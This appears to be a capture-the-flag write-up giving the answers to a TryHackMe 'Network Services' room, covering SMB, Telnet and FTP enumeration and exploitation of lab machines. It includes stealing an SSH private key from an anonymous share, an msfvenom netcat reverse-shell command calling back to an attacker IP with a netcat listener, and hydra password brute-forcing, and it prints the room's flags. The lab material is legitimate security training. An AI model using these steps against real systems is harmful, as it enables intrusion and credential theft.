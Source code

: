 #  TryHackMe - Network Services (Room 015)

## Please try and answer all questions before looking at the answers to test your knowledge :)

![](/Network%20Services/images/labs.png)

<details><summary>Task 1 - Understanding SMB</summary>
<p>

## Task 1.1

### Q: What does SMB stand for?

A: Server Message Block Protocol

## Task 1.2

### Q: What type of protocol is SMB?

A: Response-Request

## Task 1.3

### Q: What do clients connect to servers using?

A: TCP/IP

## Task 1.4

### Q: What systems does Samba run on?

A: Unix

</p>
</details>

<details><summary>Task 2 - Enumerating SMB</summary>
<p>
	
## Task 2.1

### Q: Conduct an __nmap__ scan of your choosing. How many ports are open?

A: 3

![](/Network%20Services/images/nmap.png)

## Task 2.2

### Q: What port is SMB running on?

A: 139/445

## Task 2.3

### Q: Let's get started with Enum4Linux, conduct a full basic enumeration. For starters, what is the WORKGROUP name?

A: WORKGROUP

![](/Network%20Services/images/WORKGROUP.png)


## Task 2.4

### Q: What comes up as the __name__ of the machine?

A: POLOSMB

![](/Network%20Services/images/polosmb.png)

## Task 2.5

### Q: What operating system version is running?

A: 6.1

## Task 2.6

### Q: What share sticks out as something we might want to investigate?

A: profiles

![](/Network%20Services/images/profiles.png)

</p>
</details>

<details><summary>Task 3 - Exploiting SMB</summary>
<p>
	
## Task 3.1

### Q: What would be the correct syntax to access an SMB share called "secret" as user "suit" on a machine with the IP 10.10.10.2 on the default port?

A: smbclient //10.10.10.2/secret -U suit -p 445

## Task 3.3

### Q: Let's see if our interesting share has been configured to allow anonymous access - that it does not require authentication to view the files. We can do this easily by:

	* using the username "anonymous"
	* connecting to the share we found during the enumeration stage
	* and not supplying a password

Does the share allow anonymous access? Y/N?

A: Y

![](/Network%20Services/images/smbclient.png)

## Task 3.4

### Q: Great! Have a look around for any interesting documents that could contain valuable information. Who can we assume this profile folder belongs to?

A: John Cactus

![](/Network%20Services/images/john.png)

## Task 3.5

### Q: What service has been configured to allow him to work from home?

A: SSH

## Task 3.6

### Q: Okay! Now that we know this, what directory on the share should we look in?

A: .ssh

## Task 3.7

### Q: This directory contains authentication keys that allow a user to authenticate themselves on, and then access, a server. Which of these keys is most useful to us?

A: id_rsa

## Task 3.8

### Q: Download this file to your local machine and change the permissions to 600. Now, use the information you have already gathered to work out the username of the account. Then use the service and key to log-in to the server. What is the smb.txt flag?

A: THM{smb_is_fun_eh?}

![](/Network%20Services/images/ssh.png)

</p>
</details>

<details><summary>Task 4 - Understanding Telnet</summary>
<p>
	
## Task 4.1

### Q: What is Telnet?

<details><summary>Answer</summary>
<p>

A: Application Protocol

</p>
</details>

## Task 4.2 

### Q: What has slowly replaced Telnet?

<details><summary>Answer</summary>
<p>
	
SSH

</p>
</details>

## Task 4.3

### Q: How would you connect to a Telnet server with the IP 10.10.10.3 on port 23?

<details><summary>Answer</summary>
<p>
	
telnet 10.10.10.3 23

</p>
</details>

## Task 4.4

### Q: The lack of what means that all Telnet communication is in plaintext?

<details><summary>Answer</summary>
<p>
	
Encryption

</p>
</details>

</p>
</details>

<details><summary>Task 5 - Enumerating Telnet</summary>
<p>
	
## Task 5.1

### Q: How many ports are open on the target machine?

<details><summary>Answer</summary>
<p>

1

![](/Network%20Services/images/nmap2.png)

</p>
</details>

## Task 5.2

### Q: What port is this?

<details><summary>Answer</summary>
<p>

8012

</p>
</details>

## Task 5.3

### Q: This port is unassigned, but still lists the protocol it is using, what protocol is this?

<details><summary>Answer</summary>
<p>

TCP

</p>
</details>

## Task 5.4

### Q: Now re-run the namp scan without the -p- flag. How many ports show up as open?

<details><summary>Answer</summary>
<p>
	
0

![](/Network%20Services/images/closed.png)

</p>
</details>

## Task 5.5 - no answer needed

### Here, we see that by assigning Telnet to a __non-standard port__ it is not part of the common ports list or top 1000 ports that nmap scans. It is important to try every angle when enumerating as the information you gather here will inform your exploitation stage

## Task 5.6

### Q: Based on the title returned to us, what do we think this port could be used for?

<details><summary>Answer</summary>
<p>
	
A backdoor

![](/Network%20Services/images/backdoor.png)

</p>
</details>

## Task 5.7

### Q: Who could it belong to? Gathering possible usernames is an important step in enumeration?

<details><summary>Answer</summary>
<p>
	
Skidy

</p>
</details>

## Task 5.8 - no answer needed

### Always keep a note of information you find during your enumeration stage, so you can refer back to it when you move on to try exploits

</p>
</details>

<details><summary>Task 6 - Exploiting Telnet</summary>
<p>
	
## Task 6.1 - no answer needed

### Okay, let's try and connect to this telnet port

## Task 6.2

### Q: Great! It's an open telnet connection. What welcome message do we receive?

<details><summary>Answer</summary>
<p>
	
SKIDY'S BACKDOOR

![](/Network%20Services/images/skidy.png)

</p>
</details>

## Task 6.3

### Q: Let's try executing some commands. Do we get a returnon any input we enter into the telnet session (Y/N)

<details><summary>Answer</summary>
<p>

N

![](/Network%20Services/images/run.png)

</p>
</details>

## Task 6.4 - no answer needed

### Q: That's strange. Let's check to see if what we are typing is being executed as a system command

## Task 6.5 - no answer needed

### Q: Start a tcpdump listener on your local machine using `sudo tcpdump ip proto \\icmp -i tun0` - this starts a tcpdump listener specifically listening for ICMP traffic which ping operates on

## Task 6.6

### Q: Now, use the command `ping [local tun0 ip] -c 1` through the telnet session to see if we are able to execute system commands. Do we receive any pings? Note, you need to preface this with .RUN (Y/N)

<details><summary>Answer</summary>
<p>
	
Y

![](/Network%20Services/images/ping.png)

</p>
</details>

## Task 6.7 - no answer needed

### Q: Great! This means we are able to execute system commands AND that we are able to reach our local machine

## Task 6.8

### Q: We are going to generate a reverse shell payload using msfvenom. This will generate and encode a netcat reverse shell for us. Here's our syntax

	`msfvenom -p cmd/unix/reverse_netcat lhost=10.11.3.112 lport=4444 R`

Flag | Description
------------ | -------------
-p | payload
lhost | our local host IP
lport | the port to listen on
R | export the payload in RAW format

What word does the generated payload start with?

<details><summary>Answer</summary>
<p>
	
mkfifo

![](/Network%20Services/images/mkfifo.png)

</p>
</details>

## Task 6.8

### Q: Perfect. We are nearly there. Now all we need to do is start a netcat listener on our local machine. We do this using

	`nc -vlp [listening port]`

What would the command look like for the listening port we selected?

<details><summary>Answer</summary>
<p>
	
nc -lvp 4444

</p>
</details>

## Task 6.10 - no answer needed

### Q: Great! Now that's running we need to copy and paste our msfvenom payload into the telnet session and run it as a command. Hopefully - this will give us a shell on the target machine

## Task 6.11

### Q: Success! What is the contents of flag.txt?

<details><summary>Answer</summary>
<p>
	
THM{y0u_g0t_th3_t3ln3t_fl4g}

![](/Network%20Services/images/telnet_flag.png)

</p>
</details>

</p>
</details>

<details><summary>Task 7 - Understanding FTP</summary>
<p>
	
## Task 7.1

### Q: What communications model does FTP use?

<details><summary>Answer</summary>
<p>
	
client-server	

</p>
</details>	

## Task 7.2

### Q: What is the standard FTP port?

<details><summary>Answer</summary>
<p>
	
21

</p>
</details>

## Task 7.3

### Q: How many modes of FTP connection are there?

<details><summary>Answer</summary>
<p>
	
2	

</p>
</details>

</p>
</details>

<details><summary>Task 8 - Enumerating FTP</summary>
<p>
	
## Task 8.1

### Q: Run an nmap scan. How many ports are open on the target machine?

<details><summary>Answer</summary>
<p>
	
2

</p>
</details>

## Task 8.2

### Q: What port is FTP running on?

<details><summary>Answer</summary>
<p>
	
21

</p>
</details>

## Task 8.3

### Q: What variant of FTP is running on it?

<details><summary>Answer</summary>
<p>
	
vsftpd

![](/Network%20Services/images/vsftpd.png)
	
</p>
</details>

## Task 8.4

### Great! Now that we know that type of FTP server we are dealing with we can check to see if we are able to login anonymously to the FTP server

We can do this by typoing `ftp [IP]` into the console and entering anonymous as the username and no password

What is the name of the file in the anonymous FTP directory?

<details><summary>Answer</summary>
<p>
	
PUBLIC_NOTICE.txt

![](/Network%20Services/images/notice.png)
	
</p>
</details>

## Task 8.5

### Q: What do we think a possible username could be?

<details><summary>Answer</summary>
<p>

mike

![](/Network%20Services/images/mike.png)

</p>
</details>

## Task 8.6 - no answer needed

### Q: Great! Now we have got details about the FTP server and a possible username

</p>
</details>

<details><summary>Task 9 - Exploiting FTP</summary>
<p>
	
## Task 9.1

### Q: What is the password for the user "mike"?

<details><summary>Answer</summary>
<p>
	
password

![](/Network%20Services/images/hydra.png)

</p>
</details>

## Task 9.2 - no answer needed

### Q: Bingo! Now, let's connect to the FTP server as this user using `ftp [IP]` and entering the credentials when prompted

## Task 9.3

### Q: What is ftp.txt?

<details><summary>Answer</summary>
<p>
	
THM{y0u_g0t_th3_ftp_fl4g}

![](/Network%20Services/images/flag.png)

</p>
</details>

</p>
</details>